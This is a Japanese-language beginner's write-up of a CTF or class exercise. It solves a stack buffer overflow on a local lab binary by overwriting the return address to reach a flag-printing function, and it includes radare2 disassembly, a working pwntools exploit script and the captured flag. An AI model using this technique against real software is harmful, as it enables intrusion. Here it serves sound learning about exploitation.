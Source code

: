 # second 

## access

```
nc localhost 4102
```

## solve

```python
from pwn import *

io = remote("0.0.0.0", 4102)
```
まず問題を見てpdf @mainしたけどなんかめぼしいのが見つからないんだけど！？ってなって、ここでちょいとkitamu君のwriteupとsrc.cをちらちらしてきた。
したら、sym.read_flagってのがやっぱりあるらしい。。。
r2のコマンドを探すとaflってのを見つける。
aflをするとなんかいた↓
`0x004011d6    1 30           sym.read_flag`
こいつをpdf。"cat flag.txt"してそうだなと理解する。

pwnについて調べてるとローカルの下にあるリターンアドレスを書き換えるという問題があるらしい。
そこでこいつのスタックフレームを理解する。↓
`
           ; var char *s @ rbp-0x20
│           0x004011f4      f30f1efa       endbr64
│           0x004011f8      55             push rbp
│           0x004011f9      4889e5         mov rbp, rsp
│           0x004011fc      4883ec20       sub rsp, 0x20
`
どうやら、0x20確保してすべてのローカル領域を変数sが使ってるってのが分かった。
じゃあ前回みたいに0x20をAで埋めればよいのかと思いこの後に
`python -c print('a' * 0x20)と、 \xb6\x11\x40\x00`
をコピペして試してみる。うーん無理

もう一回スタックフレームについて調べてみる。
するとローカルの下にrbpってものがあることに気づく。
作ってくれた教科書をもう一度見直す。
lecture2の詳細のところに(saved rbp)という記述を見つける。よくみると8増えてる。そしてその下にはリターンアドレスの記述が！！

てことは…！
`python -c print('a' * (0x20 + 8)) と\xb6\x11\x40\x00 ` をコピペ
これで行けるかと思い試す。
無理無理無理無理全然無理

ちょいと調べてみるとどうやら\xb6などは入力ができないのでpythonを使うとよいとgoogle先生が教えてくれた。

そこで授業中に教えてくれたオリンピックに出てる方の記事とkitamu君のをちょちょちょと。

```python:damedame.py
from pwn import \*
  2
  3 hensu = ('a'\*(0x20+8) + "\xd6\x11\x40\x00")
  4
  5 io = remote('localhost',4102)
  6 io.sendline(hensu)
  7 io.interactive()
```
ここまで出来上がった。
やっぱり無理ポイ。ここまで見てみぬふりをしていた
>「必ずしも呼び出したい関数の最初に飛ばす必要は無い」
という記述に目を付け、文字列を変数に入れてるここ↓のアドレスを書いてみた。
`0x004011de      488d3d1f0e00.  lea rdi, str.cat_flag.txt   ; 
0x402004 ; "cat flag.txt" ; const char \*strin`
しかしまだうまくいかない。
またまたkitamu君のを見るとどうやらアドレスの終わりを
`\x00`
で四つ埋めていた。試しに四つに変えてみると成功した!
```python:seikai.py
 1 from pwn import *
  2
  3 hensu = ('a'*(0x20+8) + "\xde\x11\x40\x00\x00\x00\x00\x00")
  4
  5 io = remote('localhost',4102)
  6 io.sendline(hensu)
  7 io.interactive()
```

`[vagrant@fedora32 second]$ python seikai.py
[+] Opening connection to localhost on port 4102: Done
[*] Switching to interactive mode
buf <flag{Y0u_c4n_0v3rwr1t3_r3turn_4ddr}
[*] Got EOF while reading in interactive
`
ばっちり！！

## この問題で新しくわかったこと
* スタックフレームのローカルの下にはrbpがあってその下にリターンアドレス
* 呼びたいアドレスじゃなくても関数内のアドレスじゃないと呼べなかった。
    *理由はスタックフレームをバグらせて呼んでるのにさらにおかしくなってしまう？
* 64bitではリトルエンディアンの最後を\x00で埋める必要がある。

めっちゃ楽しかった！！
